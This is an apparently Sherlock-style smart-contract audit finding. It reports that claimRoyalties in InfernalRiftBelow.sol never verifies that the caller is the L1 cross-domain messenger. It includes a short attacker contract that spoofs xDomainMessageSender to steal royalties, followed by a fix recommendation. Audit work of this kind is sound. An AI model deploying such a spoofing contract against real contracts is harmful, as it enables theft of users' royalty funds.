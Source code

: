 Soft Violet Lion

High

# claimRoyalties in InfernalRiftBelow.sol lack access control

## Summary

In InfernalRiftBelow.sol, the function [claimRoyalties](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/moongate/src/InfernalRiftBelow.sol#L222) has the following logic

```solidity
   function claimRoyalties(address _collectionAddress, address _recipient, address[] calldata _tokens) public {

        // Ensure that our message is sent from the L1 domain messenger
        if (ICrossDomainMessenger(msg.sender).xDomainMessageSender() != INFERNAL_RIFT_ABOVE) {
            revert CrossChainSenderIsNotRiftAbove();
        }

        // Get our L2 address from the L1
        if (!isDeployedOnL2(_collectionAddress, false)) revert L1CollectionDoesNotExist();

        // Call our ERC721Bridgable contract as the owner to claim royalties to the recipient
        ERC721Bridgable(l2AddressForL1Collection(_collectionAddress, false)).claimRoyalties(_recipient, _tokens);
        emit RoyaltyClaimFinalized(_collectionAddress, _recipient, _tokens);
    }

```

the comments say that the Ensure that our message is sent from the L1 domain messenger but the code never do it,

a malicious contract caller can trigger claimRoyalties directly as long as the msg.sender return  INFERNAL_RIFT_ABOVE address when calling xDomainMessageSender() method.

then a user can build a malicious contract and call claimRoyalties direclty in Rift Below L2 contract to steal the royalties.

```solidity
contract RoraltyStealer {

    address riftBelow = address(xxxx);

    address INFERNAL_RIFT_ABOVE = address(xxxxx);

    function steal(address _collectionAddress, address _recipient, address[] calldata _tokens public {
        IRiftBelow(riftBelow).claimRoyalties(_collectionAddress, _recipient, _tokens);
    }

    function xDomainMessageSender() public view returns {
        return INFERNAL_RIFT_ABOVE;
    }

}
```

## Impact

steal of royalty fund in rift below

## Code Snippet

https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/moongate/src/InfernalRiftBelow.sol#L222

## Recommendation

validate if the message is sent from the L1 domain messenger

